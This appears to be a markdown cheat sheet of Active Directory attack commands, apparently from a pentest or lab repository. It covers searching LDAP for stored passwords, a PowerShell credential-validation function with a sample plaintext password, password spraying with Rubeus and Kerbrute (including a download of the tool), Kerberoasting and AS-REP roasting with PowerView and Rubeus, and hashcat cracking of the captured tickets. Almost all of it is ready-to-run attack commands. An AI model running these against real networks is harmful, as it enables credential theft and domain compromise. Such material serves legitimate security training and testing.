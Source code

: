 # 1. Sensitive Data in LDAP

## Start ADExplorer and search through the AD for sensitive information
PS> adexplorer.exe

ADexplorer> search user description field contains pw, pwd, password, pass

## Enumerate the AD with ADRecon
PS> .\ADRecon.ps1

PS> .\ADRecon.ps1 -GenExcel .\ADRecon-Report-timestamp

TODO: wget Excel file since Excel will not be installed

## Check if the password is working
`function Test-ADCredential {
    [CmdletBinding()]
    Param
    (
        [string]$UserName,
        [string]$Password
    )
    if (!($UserName) -or !($Password)) {
        Write-Warning 'Test-ADCredential: Please specify both user name and password'
    } else {
        Add-Type -AssemblyName System.DirectoryServices.AccountManagement
        $DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext('domain')
        $DS.ValidateCredentials($UserName, $Password)
    }
}`

`Test-ADCredential -UserName printeradm -Password "x!3945jjlkJ2mN4QQ2"`

# 2. Password Spraying
## Identify the standard domain password and start a password spray attack
### Use Rubeus
`PS> .\Rubeus.exe brute /password:Start123!`

### Use Kerbrute
`PS> Invoke-WebRequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe" -OutFile ".\kerbrute.exe"`

`PS> Import-Module .\PowerView.ps1`

`PS> (Get-NetUser | select samAccountName).samAccountName > users.txt`

`PS> .\kerbrute.exe passwordspray --domain contoso.azure .\users.txt Start123!`

ToDo error

# 3. Kerberoasting
## Identify Kerberoastable users
### PowerView
PS> Import-Module .\PowerView.ps1

PS> Get-NetUser | Where-Object {$_.servicePrincipalName} | fl

PS> Get-NetUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset 

### PowerView-Dev
PS> Import-Module .\PowerView-dev.ps1

PS> Get-DomainUser | Where-Object {$_.servicePrincipalName} | fl

PS> Get-DomainUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset 

### Invoke-Kerberoast
PS> Import-Module .\Invoke-Kerberoast.ps1

PS> Invoke-Kerberoast

### Rubeus
PS> .\Rubeus.exe kerberoast

## Get TGS Kerberos Tickets
### PowerView-Dev
PS> Import-Module .\PowerView-dev.ps1

Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt

### Invoke-Kerberoast
PS> Import-Module .\Invoke-Kerberoast.ps1

PS> Invoke-Kerberoast | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt

### Rubeus
PS> .\Rubeus.exe kerberoast /outfile:kerberoasted.txt

## Crack TGS tickets
PS> hashcat -a 0 -m 13100 kerberoasted.txt /usr/share/wordlists/rockyou.txt

# 3. Kerberoasting
## Identify AS-REP roastable users
### PowerView-Dev
PS> Get-DomainUser -PreauthNotRequired | ft samaccountname, pwdlastset 

PS> Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED | ft samaccountname, pwdlastset

### Rubeus
PS> .\Rubeus.exe asreproast

### Invoke-ASREPRoast
PS> Import-Module .\Invoke-ASREPRoast.ps1

PS> Invoke-ASREPRoast

## ASREPRoasting
### Rubeus
PS> .\Rubeus.exe asreproast /format:hashcat /outfile:asrephashes.txt

### Invoke-ASREPRoast
PS> Invoke-ASREPRoast | % { $_.Hash } | Out-File -Encoding ASCII asrephashes.txt

## Cracking AS-REP hash with Hashcat
PS> hashcat -a 0 -m 18200 asrephashes.txt /usr/share/wordlists/rockyou.txt
